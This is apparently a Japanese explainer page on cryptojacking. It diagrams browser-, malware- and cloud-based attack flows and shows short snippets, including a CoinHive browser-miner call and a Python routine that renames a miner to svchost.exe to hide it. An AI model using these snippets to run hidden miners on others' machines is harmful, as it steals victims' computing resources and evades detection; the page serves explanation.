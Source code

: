## 攻撃の手順

### 1. ブラウザベース攻撃
```
[悪意のあるWebサイト] → [JavaScript実行] → [マイニング開始] → [収益獲得]
```

### 2. マルウェアベース攻撃
```
[マルウェア感染] → [システム常駐] → [マイニング開始] → [収益獲得]
```

### 3. クラウドベース攻撃
```
[クラウドアクセス] → [リソース確保] → [マイニング開始] → [収益獲得]
```

## 攻撃に使用される技術

### 1. マイニングプール
```javascript
// ブラウザでのマイニング例（教育目的）
const miner = new CoinHive.Anonymous('your-site-key');
miner.start();
miner.on('found', function() {
    console.log('Hash found!');
});
miner.on('accepted', function() {
    console.log('Hash accepted!');
});
```

### 2. WebAssembly
```javascript
// WebAssemblyを使用したマイニング
const wasmMiner = new WebAssembly.Memory({
    initial: 256,
    maximum: 256
});
```

### 3. プロセス偽装
```python
# プロセス名を偽装する例（教育目的）
import psutil
import os

def disguise_mining_process():
    """マイニングプロセスを偽装"""
    # プロセス名をシステムプロセスに偽装
    os.rename('miner.exe', 'svchost.exe')
    
    # プロセスの優先度を下げる
    process = psutil.Process()
    process.nice(19)  # 最低優先度
```

